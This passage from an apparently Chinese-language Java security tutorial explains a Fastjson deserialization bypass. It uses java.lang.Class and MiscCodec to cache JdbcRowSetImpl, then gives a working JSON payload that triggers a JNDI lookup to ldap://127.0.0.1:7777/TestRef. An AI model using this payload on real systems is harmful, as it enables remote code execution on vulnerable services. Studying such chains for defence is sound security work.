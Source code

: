 #### 2.2构造链子

我们需要先把类放到缓存里再拿出来反序列化，所以说需要两步：

第一步：

<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711874729817.png" alt="1711874729817" style="zoom:67%;" />

首先，我们指定的类需要是一个Class.class才能调用MiscCodec这个反序列化器，所以说我们直接指定java.lang.Class就好了

其次，MiscCodec的deserialze方法这里表明传参的key值如果不为val的话就会报错，我们需要控制key为val，至于value则是我们要用的恶意类，这里直接传入com.sun.rowset.JdbcRowSetImpl

第二步：

直接把JdbcRowSetImpl链给拿过来就行了

最终结果：

```java
String s = "{{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"},{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"DataSourceName\":\"ldap://127.0.0.1:7777/TestRef\",\"autoCommit\":true}}";
JSONObject jsonObject = JSON.parseObject(s);
System.out.println(jsonObject);
```

<img src="JAVA%E5%AE%89%E5%85%A8Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/1711875258400.png" alt="1711875258400" style="zoom:50%;" />

执行成功

